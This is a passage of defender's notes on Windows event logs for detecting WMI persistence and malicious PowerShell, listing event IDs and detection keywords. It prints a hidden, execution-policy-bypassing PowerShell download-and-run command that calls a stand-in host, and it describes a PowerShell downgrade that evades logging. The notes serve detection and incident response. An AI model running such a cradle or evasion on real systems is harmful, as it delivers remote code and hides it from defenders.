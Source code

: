 ```
- EID 5858 records query errors, including host and username
- EID 5857-5861 record filter/consumer
- EID 5861 is the most useful: new permanent event consumer creation

**Notes**
- WMI-Activity/Operational Log
- Enabled by default on Win10 and Win2012R2+
- Event Filter and Consumer recorded in logs
- Both CommandLineEvent and ActiveScriptEvent consumers are logged



### Quick Wins - WMI-Activity/Operational Log
- EID 5861: New permanent consumers
- Create an WMI consumer allowlist
- WMIC commandlines in Process Tracking (Security Logs)
- EID 5857 tracks loaded provider dlls
- EID 5858 includes hostname and username
- Search for:
	- CommandLine
	- ActiveScript
	- scrcons
	- wbemcons
	- powershell
	- eval
	- .vbs
	- .ps1
	- ActiveXObject



### PowerShell Logging
- EID 4103: Module logging and pipeline output
- EID 4104: Script block logging
- EID 4105/4106: Script Start/Stop (not recommended)

**Notes**
- Powershell/Operational
	- Powershell downgrade attacks can circumvent logging and security by running ```powershell -Version 2 -Command <..>```
- Script block logging includes scripts and some deobfuscation
	- Script block: a collection of code that accomplishes a task
- Windows Powershell.evtx is older but still useful (EID 400/800)
- WinRM/Operational logs records inbound and outbound PowerShell Remoting
	- Destination Hostname, IP, Logged On user (EID 6)
	- Source of session creation (EID 91)
	- Authenticating user account (EID 168)

**Enable PowerShell Logging**
- GPO - "Turn on Powershell Script Block Logging"
- Suspicious scripts = "Warning" events

**PowerShell Stealth Syntax**
```powershell
powershell -w Hidden -nop -noni -exec bypass IEX (New-ObjectSystem.Net.WebClient.downloadstring('http://example.com/a'))
```
- -W: WindowStyle (often "hidden")
- -nop: NoProfile
- -noni: NonInteractive 
- -ec: EncodedCommand
- -exec: Execution Policy (often "bypass")
- IEX: Invoke-Expression (execute arbitrary commands, rarely used)